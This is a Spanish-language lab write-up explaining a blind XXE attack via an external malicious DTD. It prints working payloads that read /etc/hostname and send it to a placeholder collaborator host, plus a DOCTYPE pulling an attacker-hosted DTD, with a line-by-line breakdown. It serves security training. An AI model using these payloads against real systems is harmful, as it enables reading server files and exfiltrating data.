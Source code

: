 En esta clase continuamos con el mismo laboratorio anterior, centrado en la explotación de una vulnerabilidad XXE ciega mediante una DTD externa maliciosa. Ya tenemos definido y alojado el archivo DTD en nuestro exploit server, y ahora utilizamos este recurso para finalizar la exfiltración del contenido del archivo /etc/hostname.

Repasamos cómo se estructura correctamente la carga XML que referencia esa DTD, y analizamos los resultados obtenidos en Burp Collaborator para verificar que la petición externa con los datos del archivo fue realizada correctamente. Este enfoque consolida el uso de entidades parametrizadas en DTD externas como una técnica poderosa para filtrar información sensible en entornos sin salida directa.

Solucion
Explicacion de los payloads
(<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;)
## 🧩 Desglose paso a paso

### 1. `<!ENTITY % file SYSTEM "file:///etc/hostname">`

- Declara una **entidad de parámetro** llamada `%file`.
    
- Su contenido será el **contenido real del archivo `/etc/hostname`** (en sistemas Unix/Linux, este archivo contiene el nombre del host del sistema).
    

---

### 2. `<!ENTITY % eval "...">`

- Declara una **nueva entidad de parámetro** llamada `%eval`.
    
- Su contenido es **otra declaración de entidad DTD**, codificada como texto.
    

xml

CopiarEditar

`"<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"`

- Aquí `&#x25;` es el **carácter `%` en hexadecimal**, usado para evadir filtros.
    
- Esto crea una entidad llamada `%exfil`, cuyo valor será el resultado de una petición a:
    
    ruby
    
    CopiarEditar
    
    `http://BURP-COLLABORATOR-SUBDOMAIN/?x=[contenido de /etc/hostname]`
    

---

### 3. `%eval;`

- Expande la entidad `%eval`, lo que **inyecta dinámicamente la declaración de `%exfil`** en el DTD.
    

---

### 4. `%exfil;`

- Finalmente se **invoca `%exfil`**, lo que hace que el servidor **haga una solicitud HTTP al dominio del atacante**, enviando como parámetro el contenido de `/etc/hostname`.

El otro payload (<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>)

## 🧩 ¿Qué hace este payload?

### 1. `<!ENTITY % xxe SYSTEM "YOUR-DTD-URL">`

- Declara una **entidad de parámetro** llamada `%xxe`.
    
- Su valor **no está definido localmente**, sino que se obtiene desde una **URL externa controlada por el atacante** (tu propia DTD personalizada).
    

### 2. `%xxe;`

- Expande esa entidad, lo que **inyecta el contenido del archivo DTD remoto** dentro del DTD local.
    
- Ese contenido puede incluir **nuevas entidades**, como:
    
    - Lectura de archivos locales.
        
    - Exfiltración de datos a través de HTTP.
        
    - Denegación de servicio, etc.

![Pasted_image_20250730200622.png](Imagenes/Pasted_image_20250730200622.png)
